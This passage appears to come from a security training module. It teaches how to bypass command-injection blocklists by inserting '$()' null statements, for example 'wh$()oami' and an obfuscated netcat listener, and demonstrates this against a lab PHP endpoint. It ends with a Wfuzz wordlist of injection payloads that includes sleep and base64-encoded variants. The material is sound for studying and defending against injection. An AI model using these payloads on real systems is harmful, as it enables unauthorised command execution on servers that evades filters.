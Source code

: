We're going to need a better idea of what is limiting us from obtaining code execution, which brings us to the core idea of this section.

A Null Statement Injection Bypass can be inserted between any characters of our choosing.

***This technique also works for more complex payloads like "`nc -nlvp 9090", which becomes: n$()c -n$()lvp 9090`***

Let's try this out on our Kali VM. We can insert the _$()_ null statement in-between the "h" and the "o" characters.

```bash
kali@kali:~$ wh$()oami
kali
```

Cool! We provided special characters as a "statement". Linux then evaluated the statement as NULL and proceeded to execute whoami. This is the premise behind blocklisted string bypasses.

Let's try to run whoami on the web application by visiting the `http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1;wh$()oami` endpoint.

![[Pasted image 20241030151747.png]]

After sending our request with the null statement in _whoami_, our result (www-data) is returned to us at the end of the output.

At this point, we'll be more effective in our testing by using _Wfuzz_ in combination with a custom wordlist to triage the parameter with the null statement technique.

Our wordlist will check for various combinations of the special characters we have discussed in this Learning Module. We'll keep this wordlist small so we can carefully examine our Wfuzz output, particularly the response length. The last thing we want is to use a wordlist with thousands of lines (and requests) that result in nothing but erroneous responses and send unnecessary traffic to the target web server.

We'll create the following wordlist as `command_injection_custom.txt` and place it in our home directory.

#### Payloads
```bash
bogus
;id
|id
`id`
i$()d
;i$()d
|i$()d
FAIL||i$()d
&&id
&id
FAIL_INTENT|id
FAIL_INTENT||id
`sleep 5`
`sleep 10`
`id`
$(sleep 5)
$(sleep 10)
$(id)
;`echo 'aWQK' |base64 -d`
FAIL_INTENT|`echo 'aWQK' |base64 -d`
FAIL_INTENT||`echo 'aWQK' |base64 -d`
```
